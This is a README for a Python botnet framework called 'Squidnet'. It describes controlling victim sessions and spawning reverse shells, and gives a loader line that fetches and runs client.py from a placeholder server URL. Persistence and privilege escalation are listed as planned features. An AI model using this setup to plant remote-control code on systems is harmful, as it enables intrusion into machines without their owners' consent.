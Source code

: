 # Squidnet - Bot net framework

This project is a basic Python-based Bot net framework for educational and ethical testing purposes. It allows you to establish communication with a remote victim, send commands, and remotely run modules.

**Disclaimer:** This code is provided for educational and research purposes only. The author is not responsible for any misuse of this software. Use it responsibly and ethically, and only on systems you have explicit permission to test.

## Features

*   **Multi-Session Handling:** Manage multiple client connections simultaneously.
*   **Reverse Shell:** Spawn a basic reverse TCP shell on the target client.
*   **Modular Design:** Easily extend the framework with new modules.
*   **Dynamic Module Loading:** Load modules from a remote server at runtime.
*   **Basic Command Set:** Includes commands for testing connectivity, changing sessions, and more.
*   **Docker Support:** Run the server in a containerized environment.

## Getting Started

### Prerequisites

*   Python 3.x
*   Docker (optional, but recommended)
*   pip

### Installation

1.  **Clone the repository:**

    ```bash
    git clone <repository_url>
    cd <repository_name>
    ```

2.  **Install dependencies:**

    ```bash
    pip install -r requirements.txt
    ```

### Running with Docker (Recommended)

1.  **Build the Docker image:**

    ```bash
    docker build -t squidnet .
    ```

2.  **Run the server (using host networking for external access):**

    ```bash
    docker run -it --network host squidnet
    ```

### Running without Docker

1.  **Start the server:**

    ```bash
    python3 server.py
    ```

### Running the Loader

1. **Modify the loader**
  Modify the `loader.py` file so that the url variable points to your servers ip address. For example:
    ```
    url = f"http://<server_ip>:5001/client.py"
    ```
2.  **Run the loader**

    ```bash
    python3 loader.py
    ```

## Usage

1.  **Server Commands:**

    *   `commands`: List all available commands.
    *   `help <command>`: Get help for a specific command.
    *   `session <session_id>`: Switch to a specific session.
    *   `test-con`: test the connection to a session
    *   `shell`: Spawn a reverse shell (currently requires manual interaction on the client-side to complete the connection, check server logs for the client ip address).
    *   `quit`: Exit the server.

2.  **Client Deployment:**

    *   The `loader.py` script downloads and executes `client.py`. You'll need to modify `loader.py` to point to your server's IP address and port where the module server is running (default: `http://<server_ip>:5001/client.py`).

## Future Enhancements

*   **Complete Reverse Shell Implementation:**  Fully develop the `tcp_shell.py` module.
*   **Windows Payloads:** Add support for Windows clients.
*   **Database Integration:** Store session information, logs, and other data in a database.
*   **Persistence:** Implement mechanisms for client persistence on the target system.
*   **Privilege Escalation:** Add modules for privilege escalation.
*   **Cross-Compilation:** Compile payloads for different operating systems automatically.
*   **Authentication and Encryption:** Secure communication between the server and clients.
*   **Web UI:** Develop a web-based user interface for easier management.


## Contributing

Contributions are welcome! Please feel free to submit pull requests or open issues to discuss improvements or bug fixes.

## License

This project is licensed under the [MIT License](LICENSE) - see the LICENSE file for details. (You'll need to create a LICENSE file and put the MIT License text in it).

